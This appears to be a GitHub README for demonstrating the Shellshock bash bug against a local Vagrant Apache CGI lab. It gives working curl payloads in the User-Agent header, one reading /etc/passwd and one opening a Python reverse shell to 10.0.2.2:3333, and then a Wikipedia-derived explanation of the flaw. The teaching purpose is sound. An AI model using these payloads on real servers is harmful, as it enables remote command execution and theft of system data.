 # Getting started on demoing a Shellshock vulnerability: 

## Setup
  1. Set up a vagrant box using this vagrant file. This will install Apache and forward to port 8080.. 
  2. Create a cgi file in /usr/lib/cgi-bin. It can be as simple as html content type "hello world."  
  3. Test the following vulnerabilities against http://localhost:8080/cgi-bin/somefileofyourchoice.sh 


## Demoing the vulnerability
### To test via the command line: 

```sh
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```

(If you see "vulnerable" you need to update bash. Otherwise, you should be good to go.)


#### Via curl: 

#### To just echo data:

```sh
curl -H "Useragent: () { :; }; echo \"Content-type: text/plain\"; echo; echo; echo 'hi world of exploits'" http://localhost:8080/cgi-bin/shellshock_test.sh
```

#### To copy passwords: 
```sh
curl -H "Useragent: () { :; }; echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://localhost:8080/cgi-bin/shellshock_test.sh
```

#### To create a reverse shell:
```sh
curl -H "UserAgent: () { :; }; /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.0.2.2\",3333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'" http://localhost:8080/cgi-bin/shellshock_test.sh
```


## More information about Shellshock: 
Source: https://en.wikipedia.org/wiki/Shell_shock

This is a major vulnerability that occurs when specific characters are included as part of a variable definition in Bash.

Function definitions are exported by encoding them within the environment variable list as variables whose values begin with parentheses ("()") followed by a function definition. 

If the characters "{ :;};" are included as the function definition, any arbitrary code that is inserted AFTER that definition is processed. This isn't supposed to happen.




### Scale of the problem: 

It looks like basically every version of Bash through version 4.3 is affected by this vulnerability.


### Why is CGI vulnurable? 

The Common Gateway Interface (CGI) vector (an interface between a web server and executables that produce dynamic content) has received the bulk of the focus from attackers thus far. However, the reach of the BASH Shellshock bug doesn’t stop at web servers. Any application that relies on user-controlled data to set OS-level environment variables and then invokes the shell from that same context can trigger the vulnerability. In other words, web applications relying on a specific type of user input can be manipulated to make clients (i.e., consumers) vulnerable to attack. 

Because CGI relies on environment variables set in the header which are later interpreted to generate dynamic content, it is vulnerable to this kind of attack. 

### More about Bash: 

In Unix-based operating systems, and in other operating systems that Bash supports, each running program has its own list of name/value pairs called environment variables. When one program starts another program, it provides an initial list of environment variables for the new program.[21]Separately from these, Bash also maintains an internal list of functions, which are named scripts that can be executed from within the program.[22]Since Bash operates both as a command interpreter and as a command, it is possible to execute Bash from within itself. When this happens, the original instance can export environment variables and function definitions into the new instance.[23] Function definitions are exported by encoding them within the environment variable list as variables whose values begin with parentheses ("()") followed by a function definition. The new instance of Bash, upon starting, scans its environment variable list for values in this format and converts them back into internal functions. It performs this conversion by creating a fragment of code from the value and executing it, thereby creating the function "on-the-fly", but affected versions do not verify that the fragment is a valid function definition.[24] Therefore, given the opportunity to execute Bash with a chosen value in its environment variable list, an attacker can execute arbitrary commands or exploit other bugs that may exist in Bash's command interpreter.

When a web server uses the Common Gateway Interface (CGI) to handle a document request, it passes various details of the request to a handler program in the environment variable list. For example, the variable HTTP_USER_AGENT has a value that, in normal usage, identifies the program sending the request. If the request handler is a Bash script, or if it executes one for example using the system(3) call, Bash will receive the environment variables passed by the server and will process them as described above. This provides a means for an attacker to trigger the Shellshock vulnerability with a specially crafted server request.[6]
Security documentation for the widely used Apache web server states: "CGI scripts can ... be extremely dangerous if they are not carefully checked."[29] and other methods of handling web server requests are often used. There are a number of online services which attempt to test the vulnerability against web servers exposed to the Internet.
